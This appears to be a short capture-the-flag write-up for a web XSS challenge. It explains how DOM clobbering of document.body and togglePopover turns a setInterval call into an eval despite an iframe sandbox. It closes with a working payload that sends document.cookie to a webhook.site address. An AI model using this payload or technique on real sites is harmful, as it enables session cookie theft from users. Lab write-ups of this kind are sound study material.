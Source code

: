 + The goal is to gain an XSS to steal an admin bot's cookie.
+ By the following sandbox setting, you cannot run any JavaScript in iframe elements:
```
const sandboxAttribute = [
  "allow-downloads",
  "allow-forms",
  "allow-modals",
  "allow-orientation-lock",
  "allow-pointer-lock",
  "allow-popups",
  "allow-popups-to-escape-sandbox",
  "allow-presentation",
  "allow-same-origin",
  // "allow-scripts", // disallow
  "allow-top-navigation",
  "allow-top-navigation-by-user-activation",
  "allow-top-navigation-to-custom-protocols",
].join(" ");

```
+ Sink: `const id = setInterval(target.togglePopover, 400);`
+ If target.togglePopover is a string, it can be used as an eval.

And target is sandbox.contentDocument.body, which can be used to DOM clobber document.body with name, and then clobber togglePopover to complete the task.

+ Payload: `<iframe name=body srcdoc="<a id=togglePopover href=a:fetch(`http://webhook.site/2ba35f39-faf4-4ef2-86dd-d85af29e4512?q=${document.cookie}`)></a>"></iframe>`
